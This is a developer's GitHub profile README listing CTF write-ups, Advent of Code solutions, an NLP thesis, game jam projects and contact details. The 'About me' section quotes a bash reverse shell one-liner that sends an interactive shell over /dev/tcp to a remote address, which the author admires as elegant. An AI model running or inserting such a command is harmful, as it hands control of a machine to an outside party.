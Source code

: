 <p align="left"> <img src="https://komarev.com/ghpvc/?username=marc-gav&label=Profile%20views&color=0e75b6&style=flat" alt="marc-gav" /> </p>

## About me
Probably my favourite thing about technology is the concept of hacking: "Playful solving of technical work that requires deep understanding, especially of a computer system."

In my free time I like to get increasingly deep understanding of different technologies and apply it to solving CTF challenges: You can find some of my solutions in this repo: https://github.com/marc-gav/picoCTF_solutions. I stopped adding new solutions because honestly you can find better write-ups for picoCTF on youtube from people that know more than me.

I am currenly learning about the Linux kernel, reverse engineering and network protocols. Slightly unrelated, after a couple years of using bash I discovered this snippet of code: `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`. I think it's beautiful to think of the different ideas that need to come together into one single bash command to form a reverse shell.

## Previously working on

- Every december I participate in the Advent of Code coding challenges (algorithmic): https://adventofcode.com/. You can find my previous solutions here:
  - 2023 (Python): https://github.com/marc-gav/Advent2023
  - 2022 (Python): https://github.com/marc-gav/advent2022
  - 2021 (Python): https://github.com/marc-gav/advent-of-code-2021
  - 2020: (C++): https://github.com/marc-gav/AdventOfCode2020
  - 2019: (Python): https://github.com/marc-gav/Advent_code_19
- In 2022 I worked on my Master's thesis in NLP (Natural Language Processing, Machine Learning). You can read more about it here: https://github.com/marc-gav/MasterThesis
- During 2017/18/19 I participated in various game development projects and Game Jams. The most advanced game my team and I created was Aqueron: https://github.com/marc-gav/cdvAqueron

## 📫 How to reach me.
Add this code to your message so I have a bit more confidence that you are not spam: **MJzwT3Bk**
- **https://www.linkedin.com/in/marcgavilangil/**
- **marcgavilangil@gmail.com**
